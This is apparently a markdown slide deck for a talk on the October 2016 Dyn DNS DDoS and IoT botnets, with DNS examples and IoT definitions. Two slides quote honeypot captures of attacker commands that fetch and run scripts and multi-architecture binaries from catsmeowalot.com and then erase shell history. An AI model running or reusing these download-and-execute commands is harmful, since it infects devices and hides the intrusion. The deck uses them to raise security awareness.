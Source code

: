 #HSLIDE

* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE?image=media/DNS_no_response.png

#VSLIDE

> Early Friday morning, Dyn, a company that provides Domain Name Servers (DNS) for a 
> lot of heavily trafficked websites and services, came under a massive Distributed 
> Denial of Service (DDoS) attack. This has disrupted access to many sites for people 
> across the U.S. Yes, it’s why your Spotify app is offline, why you can’t stream Netflix, 
> and why Twitter won’t load. 

#HSLIDE

## DNS

```
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
```

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE?image=media/dyn-network-map.png

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#HSLIDE

```
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O
http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com 
-c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
```

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

